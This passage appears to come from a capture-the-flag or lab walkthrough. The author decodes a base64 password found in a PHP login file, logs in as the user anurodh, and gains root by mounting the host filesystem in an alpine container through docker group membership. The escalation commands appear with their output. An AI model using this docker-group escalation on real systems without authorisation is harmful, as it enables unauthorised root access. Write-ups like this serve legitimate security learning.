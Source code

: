 ```bash
                    {
                        echo "Welcome Anurodh!";
                        header("Location: authenticated.php");
                    }
                    else
                    {
                        echo "Invalid OTP";
                    }
                }
        }
        else
        {
            echo "Invalid Username or Password";
        }
        }
?>
</html>
```

The file shows base64 password for the Anurodh user. Notice that if the password matches the user input it has hard coded "Welcome Anurodh!".

I send that base64 string to CyberChef and it cracks it. I use the password to log in as anurodh:

```bash
$ su anurodh
```

I am now anurodh. I see what groups they have:

```bash
$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

I see the docker group and start smiling. I know that I just need to start an alpine container with the root directory mounted so that I can be the root user in the docker container using the target system's file share. Here are the commands I run:

```bash
$ docker ps
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
$ docker images
REPOSITORY    TAG       IMAGE ID       CREATED       SIZE
alpine        latest    a24bb4013296   5 years ago   5.57MB
hello-world   latest    bf756fb1ae65   5 years ago   13.3kB
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root.

I get the flag:

```bash
# cat /root/proof.txt
REDACTED
```
